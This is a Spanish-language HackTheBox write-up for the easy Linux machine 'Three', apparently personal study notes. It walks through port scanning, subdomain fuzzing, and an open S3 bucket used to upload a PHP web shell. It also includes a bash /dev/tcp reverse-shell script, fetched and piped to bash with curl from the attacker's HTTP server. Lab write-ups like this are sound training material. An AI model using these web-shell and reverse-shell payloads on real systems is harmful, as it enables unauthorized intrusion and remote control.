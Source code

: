 # Three

Plataforma: HackTheBox
OS: Linux
Level: Easy
Status: Done
Complete: Yes
Created time: 5 de diciembre de 2024 17:37
IP: 10.129.203.61

## Recopilación de información

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

<aside>
💡 NMAP

</aside>

```bash
❯ sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn 10.129.242.54 -oG targeted
```

![image.png](<imagenes/image 33.png>)

```bash
sudo namp -p22,80 -SCV 10.129.242.54 -oN tallports
```

![image.png](<imagenes/image 34.png>)

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

- **Identificación de vulnerabilidades**
    - 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    - 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

- **Web Discovery**

![image.png](<imagenes/image 35.png>)

```bash
echo "10.129.203.61 thetoppers.htb" | sudo tee -a /etc/hosts
```

Fuzzing subdomains:

```bash
gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain | grep -v "Status: 400"

# --append-domain
#grep -v "status 400" : Oculta codigo error 400
```

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host:FUZZ.thetoppers.htb" -u 10.129.203.61 --hl=234   
```

![image.png](<imagenes/image 36.png>)

Añadimos el subdominio al etc/host

```bash
echo "10.129.203.61 thetoppers.htb,s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

Visitamos el subdominio: s3.thetoppers.htb

![image.png](<imagenes/image 37.png>)

Hacemos fuzzing:

```bash
gobuster dir -u http://s3.thetoppers.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![image.png](<imagenes/image 38.png>)

## Explotación

### Explotación 1

Seguimos configuracion de AWS:

```bash
aws configure
```

![image.png](<imagenes/image 39.png>)

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls 
```

![image.png](<imagenes/image 40.png>)

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

![image.png](<imagenes/image 41.png>)

Probamos a subir un fichero a la raiz del servidor :

```bash
<?php system($_GET["cmd"]); ?>
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Lo subimos mediante:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Accedemos a : 

```html
http://thetoppers.htb/shell.php?cmd=id
```

![image.png](<imagenes/image 42.png>)

Creamos un fichero que al llamarlo por curl, nos de acceso a una rever shell: rever.sh

```html
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.76/4444 0>&1
```

Nos ponemos en escucha

```html
nc -lvnp 4444
```

Montamos un servidor web para poder llamar al fichermo mediante curl:

```html
python3 -m http.server 8080
```

Hacemos curl al fichero:

```html
http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.76:8080/rever.sh|bash

```

Obtenemos acceso a la maquina: 

![image.png](<imagenes/image 43.png>)

## Explotación posterior

<aside>
💡 Buscamos la Flag

</aside>

```bash
find / -name  "flag.txt"
```

![image.png](<imagenes/image 44.png>)

## Conclusión

<aside>
💡 No he podido resolver la maquina sin writteup por el tema de AWS.

</aside>

<aside>
💡 No hay escalada de privilegios.

</aside>